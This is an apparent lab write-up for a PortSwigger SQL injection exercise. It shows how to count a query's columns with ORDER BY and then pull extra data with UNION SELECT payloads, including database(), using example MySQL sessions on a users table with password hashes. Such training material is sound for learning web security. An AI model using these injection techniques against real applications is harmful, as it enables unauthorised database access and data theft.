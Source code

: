 ### Third Exercise 👆


![problem.PNG](/assets/SQLi/Third/problem.PNG)

#### **To do**

```
To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.  
```


1. Try to guess number of columns with `order by <n>`

```bash
mysql> SELECT * FROM users;
+-------+-------------------------+
| user  | password_hash           |
+-------+-------------------------+
| admin | 21312k3n2lhkgheksfesfes |
| josh  | 12321ljrynr8y3oc8       |
+-------+-------------------------+
2 rows in set (0.00 sec)
mysql> SELECT * FROM users order by 3;
ERROR 1054 (42S22): Unknown column '3' in 'order clause'
```

* If you try to `order by` with a number of a any column you receive a message **OK** or **ERROR**
In the example the table only have 2 columns, I try to order by with **3 column** and receive a **ERROR message**


2. Order by correct number of columns
```bash
mysql> SELECT * FROM users order by 2;
+-------+-------------------------+
| user  | password_hash           |
+-------+-------------------------+
| josh  | 12321ljrynr8y3oc8       |
| admin | 21312k3n2lhkgheksfesfes |
+-------+-------------------------+
2 rows in set (0.00 sec)
```

* Now we know how many columns have table: `2`.

In this way we can know the column number of a table. 🔢

3. Use a UNION SELECT to combinate data or get information on database.

```bash
mysql> SELECT * FROM users UNION SELECT 1,1;
+-------+-------------------------+
| user  | password_hash           |
+-------+-------------------------+
| admin | 21312k3n2lhkgheksfesfes |
| josh  | 12321ljrynr8y3oc8       |
| 1     | 1                       |
+-------+-------------------------+
3 rows in set (0.01 sec)
```

**REMEMBER**: `UNION SELECT <n>`, n must be same equal number of columns.
```bash
mysql> SELECT * FROM users UNION SELECT database(),1;
+-------+-------------------------+
| user  | password_hash           |
+-------+-------------------------+
| admin | 21312k3n2lhkgheksfesfes |
| josh  | 12321ljrynr8y3oc8       |
| test  | 1                       |
+-------+-------------------------+
3 rows in set (0.00 sec)
```


4. In case of **PortSwigger** use `UNION SELECT NULL,...,NULL` not use numbers.
![solution.PNG](/assets/SQLi/Third/solution.PNG)